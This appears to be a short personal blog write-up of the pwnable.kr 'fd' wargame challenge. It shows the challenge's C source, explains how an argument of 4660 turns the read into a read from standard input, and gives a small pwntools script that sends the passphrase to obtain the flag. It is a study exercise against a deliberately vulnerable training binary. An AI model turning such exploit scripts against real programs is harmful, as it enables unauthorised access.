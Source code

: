 +++
date = '2025-06-10T21:05:17+03:00'
title = 'Fd_ctf'
+++

this is how i solved the fd challenge on pwnable.kr

char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

above is the code that we were given, we can notice that the theme is aboud linux file
descriptors , 0 for input , 1 for output, 2 for errors, the trick here is to convince
the file descriptor to be 0 so we can input the passkey LETMEWIN

inorder to acoomplish that, notice "fd = atoi(argv[1])-0x1234;
atoi(argv[1]) must be equal to 0x1234, atoi converts a string to a decimal,
so our inputs would be converted to a decimal number, 0x1234 is equal to 4660.
the input must be equal to 4660.

using pwntools i crafted the following payload:

from pwn import *

p = process(['./fd', '4660'])
p.send(b'LETMEWIN\n')
print(p.recvall().decode())

which then i receieved the flag.
